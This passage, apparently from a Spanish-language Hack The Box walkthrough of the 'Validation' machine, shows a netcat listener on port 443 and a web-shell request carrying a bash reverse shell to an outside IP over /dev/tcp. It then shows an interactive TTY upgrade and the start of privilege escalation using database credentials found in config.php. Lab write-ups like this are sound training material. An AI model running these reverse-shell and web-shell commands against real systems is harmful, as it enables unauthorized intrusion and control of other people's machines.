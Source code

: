 Por lo tanto vamos a mandarnos una `reverse shell` a nuestro equipo, lo primero es ponernos en escucha mediante `netcat` por el puerto `443`

```
# nc -nlvp 443
```

Nos mandamos una `reverse shell` a nuestro equipo

```
# http://10.129.250.24/shell.php?cmd=bash -c "bash -i >%26 /dev/tcp/10.10.16.15/443 0>%261"
```

Una vez en la máquina víctima vamos a realizar un `tratamiento` a la `TTY`

```
# nc -nlvp 443 
listening on [any] 443 ...
connect to [10.10.16.15] from (UNKNOWN) [10.129.250.24] 43028
sh: 0: can't access tty; job control turned off
$ 
```

Obtenemos las `dimensiones` de nuestra `pantalla` 

```
# stty size
45 183
```

Efectuamos el `tratamiento` a la `TTY`

```
# script /dev/null -c bash
[ENTER]
[CTRL + Z]
# stty raw -echo; fg
[ENTER]
# reset xterm
[ENTER]
# export TERM=xterm
[ENTER]
# export SHELL=bash
[ENTER]
# stty rows 45 columns 183
[ENTER]
```

Ya tenemos un `consola` completamente `interactiva`

```
www-data@validation:/var/www/html$ whoami
www-data
```

## Privilege Escalation

Lo siguiente que hacemos es `inspeccionar` el `config.php` que hemos encontrado y encontramos las `credenciales` del `usuario` uhc a la base de datos
